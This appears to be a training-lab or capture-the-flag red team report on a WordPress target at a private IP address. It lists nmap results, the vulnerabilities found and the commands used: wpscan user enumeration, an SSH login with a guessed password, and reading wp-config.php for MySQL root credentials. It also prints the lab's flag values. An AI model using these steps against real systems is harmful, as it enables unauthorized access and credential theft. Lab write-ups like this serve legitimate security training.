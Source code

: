 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```
![](Images/Target1_nmap_scan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22: ssh
  - Port 80: http
  - Port 111: rpcbind
  - Port 139: netbios-ssn
  - Port 445: netbios-ssn


The following vulnerabilities were identified on each target:
- Target 1
  - Cross Site Request Forgery
  - Exposed Private Directories
  - Service regsvc in Microsoft Windows 2000 systems vulnerable to denial of service
  - Weak user password
  - unsalted hashes of user passwords
  - Incorrect configuration of User privileges (steven had python privileges)
  - Port 20 and 80 open
![](Images/Vuln_Scan_1.png)
![](Images/Vuln_Scan_2.png)

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - used wpscan to identify the users on the target system
      - ssh into user michael by guessing the password as michael
      - used grep to find flag in michael's accessible directories
      - **Commands:**
      ```bash
      $ wpscan --url 192.168.1.110/wordpress --enumerate u
      $ ssh michael@192.168.1.110
      $ cd /var/www/html
      $ grep 'flag' *
      ```
  ![](Images/wpscan1.png)
  ![](Images/wpscan2.png)
  ![](Images/ssh.png)
  ![](Images/Flag_1.png)

  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - was able to navigate to the /var/www directory where flag2.txt was present
      ```bash
      $ cd /var/www/html
      $ cat flag2.txt
      ```
  ![](Images/Flag_2.png)

    - `flag3.txt`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - was able to navigate to the /var/www/html/wordpress directory where the MySQL database credentials was available under wp-config.php file
      - navigated to the MySQL database
      ```bash
      $ cd /var/www/html/wordpress
      $ cat wp-config.php
      $ mysql -u root -p
      $ show database;
      $ USE wordpress;
      $ SHOW tables;
      $ SELECT * FROM wp_post
      ```
  ![](Images/config.png)
  ![](Images/mysql1.png)
  ![](Images/mysql2.png)